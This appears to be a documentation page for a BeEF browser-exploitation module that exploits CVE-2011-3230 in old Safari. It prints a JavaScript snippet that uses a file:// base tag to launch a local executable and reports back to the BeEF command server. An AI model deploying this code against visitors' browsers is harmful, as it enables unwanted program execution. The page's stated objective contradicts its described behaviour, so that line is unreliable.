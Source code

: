 ## Summary

* **Objective**: rewrite a selected real URL link to a fake url
* **Authors**: antisnatchor
* **Browsers**: Safari <= 5.1 on OSX

* [Code](https://github.com/beefproject/beef/tree/master/modules/local_host/safari_launch_app)

## Internal Working

Uses the `file://` scheme to launch an executable.

```js
baseTag.setAttribute('href', 'file://');
document.head.appendChild(baseTag);
setTimeout('document.location="<%= @app_path %>";beef.net.send("<%= @command_url %>", <%= @command_id %>, "Command [<%= @app_path %>] launched");', 1000);
```

## References
See CVE-2011-3230 for more details.

## Feedback
